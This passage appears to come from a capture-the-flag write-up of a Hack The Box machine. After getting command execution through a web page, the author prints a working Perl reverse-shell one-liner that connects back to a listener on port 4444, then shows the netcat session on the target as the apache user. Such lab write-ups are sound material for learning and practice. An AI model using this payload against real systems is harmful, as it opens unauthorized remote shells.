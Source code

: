 It seems I got a valid login and a session cookie, let's put that in Firefox and see if I can issue commands on `page.php`:

![](/assets/images/htb-writeup-ctf/cmdpage_success.png)

Nice, I got RCE now.

### Getting a shell

I can easily get a shell with a standard perl reverse shell payload:

`perl -e 'use Socket;$i="10.10.14.23";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.122] 34436
sh: no job control in this shell
sh-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```

I don't have a lot of privileges though. I'll have to escalate to another user before I can find `user.txt`:
```
sh-4.2$ cd /home
cd /home
sh-4.2$ ls
ls
ls: cannot open directory .: Permission denied
```
